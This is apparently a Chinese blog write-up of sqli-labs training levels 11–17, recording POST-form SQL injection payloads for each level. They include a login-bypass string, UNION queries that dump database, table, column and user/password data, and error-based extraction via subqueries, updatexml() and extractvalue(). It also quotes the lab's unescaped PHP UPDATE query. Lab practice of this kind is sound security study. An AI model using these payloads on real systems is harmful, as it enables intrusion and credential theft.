 # sqli-labs靶场(2)POST


sqli-labs靶场精简记录11-17

<!--more-->

### Less-11 POST - Error Based - Single quotes- String

基于错误的POST型单引号字符型注入

万能密码

```
uname=1' or 1=1# & passwd=1
```

bypass

```
uname=-1' union select 1,database() # & passwd=1

uname=-1' union select 1,group_concat(schema_name) from information_schema.schemata # & passwd=1

uname=-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()# & passwd=1

uname=-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users'# & passwd=1

uname=-1' union select 1,group_concat(username,"|||",password) from users# & passwd=1
```

### Less-12 POST - Error Based - Double quotes- String-with twist

基于错误的双引号POST型字符型变形的注入

bypass

```
uname=admin" & passwd=admin
```

### Less-13 POST - Double Injection - Single quotes- String -twist

POST单引号变形双注入

bypass

```
uname=admin') & passwd=admin
```

### Less-14 POST - Double Injection - Single quotes- String -twist 

POST单引号变形双注入

bypass

```
uname=admin" & passwd=admin
```

### less-15 POST - Blind- Boolian/time Based - Single quotes 

基于bool型/时间延迟单引号POST型盲注

源码中注释掉了 MySQL 的报错日志，所以这里就不可以进行报错注入了，只能使用布尔盲注或者延时盲注。

bypass

```
uname=admin' & passwd=admin
```

### Less-16 POST - Blind- Boolian/Time Based - Double quotes

基于bool型/时间延迟的双引号POST型盲注

bypass

```
uname=admin") & passwd=admin
```

### Less-17 POST - Update Query- Error Based - String

基于错误的更新查询POST注入

审计后端代码，发现uname被check_input包裹了

```
//making sure uname is not injectable

$uname=check_input($_POST['uname']);  



$passwd=$_POST['passwd'];
...
$update="UPDATE users SET password = '$passwd' WHERE username='$row1'";
			print_r(mysql_error());
```

注入点是在 update 语句里面，输出了报错日志

#### 子查询注入

```
//查用户名
uname=Dumb&passwd=1' or (select 1 from (select count(*),concat_ws('-',(select user()),floor(rand()*2))as a from information_schema.tables group by a) b) where username='Dumb' -- #

//查数据库
uname=Dumb&passwd=1' or (select 1 from (select count(*),concat_ws('-',(select database()),floor(rand()*2))as a from information_schema.tables group by a) b) where username='Dumb' -- #
```

#### updatexml()函数

updatexml 最大爆 32 个字符

```
uname=Dumb&passwd=1' and updatexml(1,concat('#',(database())),0) -- #

uname=Dumb&passwd=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),0) -- #

uname=Dumb&passwd=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'),0x7e),1) -- #

uname=Dumb&passwd=1' and updatexml(1,concat('#',(select * from (select concat_ws('#',id,username,password) from users limit 0,1) a)),0) -- #
```

#### extractvalue()函数

```
uname=Dumb&passwd=1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))-- #
```


